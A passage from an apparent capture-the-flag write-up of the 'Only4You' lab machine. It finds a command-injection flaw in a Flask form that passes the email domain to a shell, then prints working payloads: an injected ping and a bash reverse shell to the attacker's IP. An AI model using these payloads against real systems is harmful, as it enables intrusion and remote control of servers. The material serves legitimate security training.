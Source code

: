 From **/var/log/nginx/error.log** we get this path:

```
unix:/var/www/only4you.htb/only4you.sock
```

Which tells us where the app is located: `/var/www/only4you.htb/`.
There is also `/var/www/beta.only4you.htb/`.

`/var/www/only4you.htb/` contains the source to the main site, which we haven't had before.

**tool.py:**

```python
from form import sendmessage

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        ...
        status = sendmessage(email, subject, message, ip)
```

**form.py:**

```python
domain = email.split("@", 1)[1]
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

This looks like an **RCE** in **email** POST param.

**Confirmed by ping!** (The request below should be URL-encoded)

```
name=a&email=a@a.com; ping+10.10.14.80&subject=a&message=a
```

`sudo tcpdump -i tun0 icmp -n`

```
14:12:30.956018 IP 10.10.11.210 > 10.10.14.80: ICMP echo request, id 2, seq 1, length 64
14:12:30.956031 IP 10.10.14.80 > 10.10.11.210: ICMP echo reply, id 2, seq 1, length 64
```

# Reverse shell as www-data

(URL-encoded):

```
name=a&email=a@a.com; bash -c 'bash -i >& /dev/tcp/10.10.14.80/9002 0>&1'&subject=a&message=a
```

`id`

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`find / -user dev 2>/dev/null`
